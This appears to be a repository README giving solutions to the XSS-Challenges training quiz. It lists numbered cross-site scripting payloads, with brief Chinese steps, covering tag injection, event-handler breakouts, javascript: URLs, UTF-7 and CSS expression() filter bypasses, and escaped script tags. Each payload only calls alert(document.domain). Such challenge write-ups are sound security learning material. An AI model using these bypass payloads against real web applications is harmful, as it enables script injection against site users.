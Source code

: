 # XSS-Challenges
http://xss-quiz.int21h.jp/

使用IE11浏览器

1 \<img onclick="alert(document.domain);" src=\>

2 "\</b\>\<script\>alert(document.domain);\</script\>\<b\>"

4 把type为hidden的input的type改为text 然后在框内输入"><script>alert(document.domain)</script>

5 将input的maxlength改为150或者一个较大的数 然后在框内输入 "><script>alert(document.domain)</script>

6 " onclick = "alert(document.domain)"

7 " onclick = alert(document.domain)

8 javascript:alert(document.domain)

9 将charset的值改为utf-7 然后输入+ACIAIABvAG4AYwBsAGkAYwBrACAAPQAgACIAIABhAGwAZQByAHQAKABkAG8AYwB1AG0AZQBuAHQALgBkAG8AbQBhAGkAbgApAA0AC-

10 " onclick = "alert(document.domaidomainn)"

11 "\>\<a href="javascrip&#x9;t:alert(document.domain)"\>\<"xss\</a>

12 `` onclick = alert(document.domain)

13 aa:expression(if(!window.x){alert(document.domain);window.x=1})

14 aa:expre/**/ssion(if(!window.x){alert(document.domain);window.x=1})

15 \\x3Cscript\\x3Ealert(document.domain)\\x3C/script\\x3E

16 \\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e

